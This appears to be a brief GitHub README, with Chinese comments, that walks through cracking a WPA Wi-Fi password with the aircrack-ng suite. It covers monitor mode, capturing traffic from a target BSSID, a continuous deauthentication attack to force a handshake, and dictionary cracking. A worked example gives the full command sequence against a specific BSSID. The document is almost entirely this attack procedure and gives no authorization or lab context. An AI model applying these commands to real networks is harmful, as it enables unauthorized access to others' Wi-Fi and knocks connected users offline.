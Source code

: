 # Aircrack-ng-Guide
A sample use guide for aircrack-ng in linux

### Step
- iwconfig	--查看网卡列表
- airmon-ng start <网卡名>	--打开用来破解的网卡
- iwconfig	--重新查看网卡列表，start后网卡名会变
- airodump-ng <网卡名>	--查看wifi列表
- airodump-ng -c <channel> --bssid <wifi破解目标的bssid> -w <文件名> <网卡名>	--抓取目wifi的网络包并存储
- aireplay-ng -0 0 -a <bssid> <网卡名>	--获取握手包，直到出现WPA handshake
- aircrack-ng -w <字典名> -b <bssid> 文件名*.cap	--利用字典破解.cap数据包

### Example
<pre><code>iwconfig
airmon-ng start wlp0s20u1
iwconfig
airodump-ng wlp0s20u1mon
airodump-ng -c 6 --bssid C0:61:18:29:9D:28 -w wifiname wlp0s20u1mon
aireplay-ng -0 0 -a C0:61:18:29:9D:28 wlp0s20u1mon
aircrack-ng -w wordlist.txt -b C0:61:18:29:9D:28 wifiname*.cap
</code></pre>
